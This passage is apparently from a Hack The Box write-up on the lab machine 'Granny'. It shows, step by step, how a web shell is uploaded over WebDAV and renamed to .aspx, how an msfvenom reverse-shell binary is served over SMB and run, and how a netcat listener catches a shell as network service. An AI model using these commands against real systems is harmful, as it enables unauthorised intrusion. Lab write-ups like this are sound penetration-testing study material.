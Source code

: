 Upload webshell

```bash
┌──(bravosec㉿fsociety)-[~/htb/Granny]
└─$ cadaver http://granny.htb/
dav:/> put cmd.txt
Uploading cmd.txt to `/cmd.txt':
Progress: [=============================>] 100.0% of 1400 bytes succeeded.
dav:/> cp cmd.txt cmd.aspx
Copying `/cmd.txt' to `/cmd.aspx':  succeeded.
dav:/>
```

Access webshell (From browser since it uses `VIEWSTATE`)

![](/assets/obsidian/9ca8287340cdf8ef130264fdc1ee8279.png)

Host reverse shell binary

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.30 LPORT=1111 -f exe -o rev.exe
smbserver.py s .
```

Send payload

```bash
\\10.10.16.30\s\rev.exe
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Granny]
└─$ rlwrap -cAr nc -nlvp 1111
listening on [any] 1111 ...
connect to [10.10.16.30] from (UNKNOWN) [10.129.41.168] 1033
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service
```

## From network service to SYSTEM


### Abuse privilege tokens

```bash
c:\windows\system32\inetsrv>whoami /all
whoami /all

USER INFORMATION
----------------

User Name                    SID
============================ ========
nt authority\network service S-1-5-20


GROUP INFORMATION
-----------------
```